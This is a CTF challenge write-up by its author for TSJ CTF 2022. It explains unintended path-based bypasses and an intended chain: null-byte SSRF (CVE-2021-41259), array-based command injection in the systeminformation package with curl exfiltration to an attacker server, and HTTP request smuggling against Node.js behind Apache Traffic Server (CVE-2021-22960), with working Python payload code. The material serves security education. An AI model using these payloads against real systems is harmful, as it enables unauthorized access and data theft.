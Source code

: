 # Introduction

There are two parts to this challenge. The first part is a web server run by Nim, and the other web server is a web server run by Node.js. An Apache Traffic Server is used as a proxy before you can access these two web servers.

Although some people mentioned that they learned a lot from this challenge, or they really enjoy solving it, I have to apologize for totally messing it up. It should be a more interesting and enjoyable challenge than it presents. But since I have already given the idea in the flag (HR5, although it seems like most people did not notice that during the CTF), I decided not to deploy a modified version.

But still, it's not all that bad, I guess. It became a challenge with most solves and gave an excellent experience for teams that had a hard time with other tough challenges.

I am going to talk about the unintended solution and the intended one, hope you enjoy.

# The Unintended Way

For the Nim web server, you can get the key by making the `hello` string in the function `hello_from_the_world` to a segment or parameter. Both "http://127.0.0.1:80/key#hello" and  "http://127.0.0.1:80/key?hello" work, and even "http://localhost/?" works.

The other way, which can give you both direct access to the `key` endpoint from Nim server and `admin` endpoint from Node.js server, is double slash. You can do it with "http://34.81.54.62:5487/hello-from-the-world//key" and "http://34.81.54.62:5487/service-info//admin".

# The Intended Way

Now, let's talk about the intended way.

For the Nim server, it was intended to get the key based on SSRF in `CVE-2021-41259`. Basically, you can use the null byte `\0` to ignore the `hello` string behind it in the function `getContent`.

To get the flag, there's a command injection in the "systeminformation" package in Node.js. We can send an array to bypass the sanitizer. The result is not shown directly on the response, so you can use `curl` to send the result to your server or any owned domain.

The way to access the `admin` endpoint was based on `CVE-2021-22960`, which is HTTP Request Smuggling.
In Node.js 16.6.0, when we are in chunked mode, the llhttp parser thinks the chunk length ends after it encounters `\r`. However, for Apache Traffic Server, it thinks the chunk length ends after it encounters `\n`.

```python
smuggled = (
    b"POST /admin HTTP/1.1\r\n" +
    f"Host: {host}:{port}\r\n".encode() +
    b"Transfer-Encoding: chunked\r\n" +
    b"\r\n" +
    smuggled_data_length + b"\r\n" +
    smuggled_data + b"\r\n" +
    b"0\r\n" + 
    b"\r\n"
)
payload = (
    b"GET /service-info/ HTTP/1.1\r\n" +
    f"Host: {host}:{port}\r\n".encode() +
    b"Transfer-Encoding: chunked\r\n" +
    b"\r\n" +
    first_chunk_len + b" \n" + b"x"*len(smuggled_len) + b"\r\n" +
    smuggled_len + b"\r\n" +
    b"0\r\n" +
    b"\r\n" +
    smuggled
)
```

So, for Apache Traffic Server, `first_chunk_len` will be the chunk length, and `b"x"*len(smuggled_len)` will be the data. `smuggled_len` will be the next chunk length, with the data `b"0\r\n"+b"\r\n"+smuggled`, except the last 2 lines in `smuggled`. The second to last line in `smuggled` is the last chunk length, making an end to the chunked-mode request.

However, for Node.js, `first_chunk_len + b" \n" + b"x"*len(smuggled_len) + b"\r\n"` will be read at once, and `first_chunk_len` will be the chunk length. Its data will be `smuggled_len`. The next chunk length is `0`, telling the chunk-mode request has ended. In that case, the whole `smuggled` will be the second request, which bypass the Apache Traffic Server and sends out a request to `admin`.

## Notes

The `HRS` stands for `HTTP Request Smuggling`. Although you don't really need that to solve this challenge, which is pretty unfortunate.

Thanks to everyone playing TSJ CTF 2022. I will give out better challenges next year if there is TSJ CTF 2023 XD.

# Reference
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41259
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-21315
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22960